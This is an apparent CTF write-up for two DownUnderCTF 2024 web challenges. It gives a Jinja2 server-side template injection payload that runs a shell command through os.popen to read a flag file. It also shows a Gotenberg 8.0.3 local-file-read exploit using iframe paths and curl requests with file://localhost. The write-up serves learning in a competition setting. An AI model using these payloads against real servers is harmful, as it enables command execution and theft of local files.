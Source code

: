 # DUCTF writeups

<h1>WEB</h1>

# Parrot EMU

Basic file read SSTI

`{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}`

# hah-got-em

This is based on a vulnerability in an old version of the tool called gotenberg. [Gotenberg](https://github.com/gotenberg/gotenberg) is a docker based tool
which allows conversion of multiple formats like html,url,markdown into pdfs. The challenge used a particular version of gotenberg - 8.0.3 and
 we can see in the commits that the next verion 8.1.0 is a patch. So comparing the two versions we see 
 1) A regex has been improved 
 
 ![Regex]()
 
 2) A [test case](https://github.com/gotenberg/gotenberg/compare/v8.0.3...v8.1.0#diff-be84e06649ad8faf29f22ad46330a6e9b83dbaf2d6c35b2a3656313d26a79d35) added 
 to check for a particular file read vulnerability.
 
 ![Test_case]()
 
 Now going through the source provided we can see that the flag.txt in mounted in /etc/flag.txt.
 So exploiting either of these vulnerabilities we can get the flag.
 
 We can send the payload by either route as url or html or markdown. The html file is:
 
 ```
 <html>

<body>
    <iframe src="/proc/self/root/etc/flag.txt"></iframe>
    <iframe src="\\localhost/etc/flag.txt"></iframe>
</body>

</html>
 ```

 and then : `curl -X POST -F 'files=@index.html' -o sol.pdf http://{host_url}/forms/chromium/convert/html`
 
 Another method is this:
 `curl --request POST https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/url --form url=file://localhost/etc/flag.txt -o flag.pdf`
 
This bypasses the regex as we are using file:// instead of file:///.
